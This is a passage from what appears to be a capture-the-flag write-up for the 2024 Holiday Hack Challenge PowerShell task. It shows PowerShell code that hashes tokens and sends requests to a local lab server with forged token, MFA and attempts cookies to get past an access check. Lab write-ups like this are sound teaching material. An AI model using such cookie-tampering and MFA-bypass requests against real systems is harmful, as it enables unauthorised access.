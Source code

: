 In PowerShell, we can generate hashes using `Get-FileHash`. This only supports files or streams as an input though, so we'll need to create either of those for it to work. Creating a stream from a string is fairly straightforward, so let's take that route.

```powershell
$token = "5f8dd236f862f4507835b0e418907ffc`n"
$tokenAsStream = [System.IO.MemoryStream]::new()
$writer = [System.IO.StreamWriter]::new($tokenAsStream)
$writer.write($token)
$writer.Flush()
$tokenAsStream.Position = 0
(Get-FileHash -Algorithm SHA256 -InputStream $tokenAsStream).Hash
```

```txt
4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

Perfect, it works exactly as we need it to. We can now also try it with a different token, and send the request.

```powershell
$rawToken = "67c7aef0d5d3e97ad2488babd2f4c749"
$token = "$rawToken`n"
$tokenAsStream = [System.IO.MemoryStream]::new()
$writer = [System.IO.StreamWriter]::new($tokenAsStream)
$writer.write($token)
$writer.Flush()
$tokenAsStream.Position = 0
$hash = (Get-FileHash -Algorithm SHA256 -InputStream $tokenAsStream).Hash
$hash

Invoke-WebRequest "http://127.0.0.1:1225/mfa_validate/$hash" -Credential $cred -AllowUnencryptedAuthentication -Headers @{Cookie="token=$rawToken; mfa_token=2735818892.786766"}
```

Great, the server accepted the request. We got a response about a cookie being set.

{{< figure src="/img/writeups/holiday-hack-challenge/2024/act2/powershell/set-attempts-cookie.png" title="Setting cookie result" >}}

The cookie `attempts` is being set to `c25ha2VvaWwK01`. Let's add that to our request.

```powershell
Invoke-WebRequest "http://127.0.0.1:1225/mfa_validate/$hash" -Credential $cred -AllowUnencryptedAuthentication -Headers @{Cookie="token=$rawToken; mfa_token=2735818892.786766; attempts=c25ha2VvaWwK10"}
```


```html
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
```


Now we got a different response, but a cookie is still being set. This time `attempts` is being set to `c25ha2VvaWwK02`. We can keep repeating this process, and eventually the cookie will stay at `c25ha2VvaWwK10`.
